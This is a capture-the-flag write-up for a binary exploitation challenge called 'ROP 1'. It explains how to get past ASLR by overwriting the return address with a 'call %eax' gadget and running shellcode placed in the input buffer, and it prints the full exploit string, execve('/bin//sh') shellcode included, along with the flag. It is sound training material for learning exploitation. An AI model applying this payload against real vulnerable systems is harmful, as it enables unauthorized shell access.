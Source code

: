 ## ROP 1 - 100 (Binary Exploitation) ##
#### Writeup by Oksisane

### Problem ###

This binary is running on a machine with ASLR! Can you bypass it? The binary can be found at `/home/rop1/` on the shell server. The source can be found [here](https://picoctf.com/problem-static/binary/rop1/rop1.c).



### Hint ###

ASLR is hard to beat if you need to predict an address, but what if you don't? What does %eax contain when vuln returns? Is there any code in the program which calls or jumps to it?


## Answer ##

### Overview ###

Implement use [ROP](http://en.wikipedia.org/wiki/Return-oriented_programming) techniques to write and execute you'r own shellcode while defeating aslr.

### Details ###
Before we begin, I am going to assume you know the basics of shellcode, buffer overflow attacks, and disassembling. If not, please read Overflow 1/2 before attempting this problem.

Let's begin. The hint tells us that figuring out what eax points to when the program returns is a good start, so let's do that. Opening the binary in IDA (provided [here](rop1) for your convenience) and breakpointing at the ret call shows us that `%eax` points to the start of our input buffer when `vuln` returns. This means that if we use our traditional buffer overflow to change the value of `%eip` to the value in `%eax`, the code will jump to the start of our buffer and start executing it as if the buffer was any other function. Since we do this without ever using any hardcoded addresses, it solves the problem of ASLR!

The first thing we need to know to exploit this is how many places up the stack we must write to change %eip. This turns out to be `76`, which is common for buffer sizes of 64 such as in this problem. Next, we need to figure out how to set the value of `%eip` to `%eax`. To do this we use a `ROP gadget`. A ROP gadget is a snippet of code somewhere in the assembly of this program (we don't really care where since we can overwrite `%eip` with anything) that we can employ, out of context of whatever function it is in, to serve a purpose. In this case, we are simply looking for the ROP Gadget: `call %eax`. This will jump to the value stored in `%eax` (the start of our buffer) and then execute each line of our buffer until an error is thrown. To find the `ROP Gadget` we can use grep, such as shown here:
```bash
objdump -d rop1 | grep "call.*eax"
```
Which returns many results. Let's pick the first one, `0x08048d86` and overwrite `%eip` with it. Our exploit string is now:
```bash
python -c 'print ""A"*76 + "\x86\x8d\x04\x08" '
```
Now the program will jump to the start of our program and start executing the `0x41` (A) values as instructions until it reaches an error. The final step of this problem is adding shellcode to the start of our buffer so the program executes it instead of `0x41`. Let's add this shellcode
```
\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80
```
and subtract the corresponding number of bytes from the `A` values we are printing to ensure we still overwrite `%eip` correctly. The final exploit string should look like this. Now, we print the shellcode first and then only 55 As (the shellcode is 21 bytes):
```
python -c 'print "\x31\xc9\xf7\xe1\xb0\x0b\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\xcd\x80" + "A"*55 + "\x86\x8d\x04\x08" '
```
which gives us our flag!
### Flag ###

    theres_no_need_to_guess





